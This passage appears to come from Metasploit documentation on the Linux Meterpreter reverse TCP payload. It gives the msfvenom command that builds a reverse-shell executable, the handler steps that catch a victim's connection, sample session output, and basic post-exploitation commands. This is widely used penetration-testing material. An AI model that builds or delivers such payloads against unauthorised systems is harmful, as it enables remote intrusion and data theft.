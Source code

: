 **As a standalone executable**

To use linux/x86/meterpreter/reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f elf -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious executable, you should
receive a session:

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.23.182
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2016-07-06 22:40:35 -0500

meterpreter > 
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using the Linux Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/home/sinn3r/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

